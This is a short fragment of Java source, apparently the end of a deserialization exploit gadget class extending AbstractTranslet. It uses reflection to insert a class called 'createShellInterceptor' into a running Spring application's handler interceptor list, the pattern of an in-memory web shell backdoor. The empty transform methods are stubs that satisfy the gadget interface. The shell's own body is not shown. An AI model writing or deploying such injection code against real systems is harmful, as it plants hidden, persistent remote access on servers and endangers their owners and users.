            ArrayList<Object> adaptedInterceptors = (ArrayList<Object>) field.get(abstractHandlerMapping);
            Class<?> shellClass = createShellInterceptor();
            adaptedInterceptors.add(shellClass.newInstance());
        }catch (Exception e){
            e.printStackTrace();
        }

    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

}
```